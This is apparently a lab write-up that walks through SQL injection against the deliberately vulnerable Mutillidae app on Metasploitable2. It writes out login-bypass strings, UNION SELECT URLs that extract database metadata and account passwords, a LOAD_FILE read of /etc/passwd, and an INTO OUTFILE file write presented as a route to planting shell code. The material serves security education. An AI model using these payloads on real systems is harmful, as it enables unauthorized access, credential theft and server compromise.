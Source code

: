 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/139001aa-7611-452b-86c2-731b505d0aad)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/26deaa8c-e030-4745-9564-463a71d09e51)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/19854045-b8b4-46df-a677-09d2d0b1122b)
Click on the menu Login/Register and register for an account
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/ec90e413-aa43-4a7e-93cf-3b576ad6b7a6)
Click on the link “Please register here”
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/50155c8c-666c-43a6-ae05-0233e24cd7e2)
Click on “Create Account” to display the following page:
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/7b9ea77d-2014-4303-bad4-56a7bde442ce)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/96606a1a-75e3-4a4e-9c62-19efd0f86d5b)
Click “Login”. The logged in page will show as below:
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/5e392db6-2a11-4c1f-9274-a4effe3a394f)
##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/9cf4436f-d124-45a8-a342-89d5a28d5665)
Click the login button and you will see it enter into the administrator page.
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/4f4067dd-cc35-40ba-8e15-54f185390438)
## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below:
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/7f84b9aa-236d-471e-8281-4c38fafc9fcb)
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/2d1f9c52-988d-4b07-9d80-e57a850700be)
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/10bfcb45-877a-4229-9c77-452966c71d0b)
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/f451757f-f645-46ec-8732-240080a0c888)
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/06508141-d833-4a94-ada2-bd07c60bff54)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/b98b1e09-e8b2-41e7-b0b0-399ddac46234)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/e62e35d6-ad57-4b3b-b515-52529ab1ae9f)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/07bf591c-c58e-44d5-9c3d-1497c5e13dee)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/1e84fc8c-1dec-4520-aac1-816e59dc5ae1)
As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/33c74a15-6d8b-47ff-8d19-9cf5a1a5a791)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/47c3a7ee-da89-458c-b8a5-f12f94050470)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/eaeb065f-9b66-487c-ac09-40b23bbe69a9)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/544fc61e-1cfd-4592-a629-920d3141ccfe)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/e251203d-72e7-4f38-af47-e544e50a270a)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/ef276642-16e1-490b-8b85-7b7e2209d0be)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Shobika187/sqlinjection/assets/94508142/ed67b358-c74d-4654-a84c-bcc6526a1dbc)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/f39a2b91-0616-429c-ad94-4dfd5891557f)
Screenshot 2023-06-10 225759
Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Shobika187/sqlinjection/assets/94508142/aa526214-41c0-414c-aaf6-21f2856f128c)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
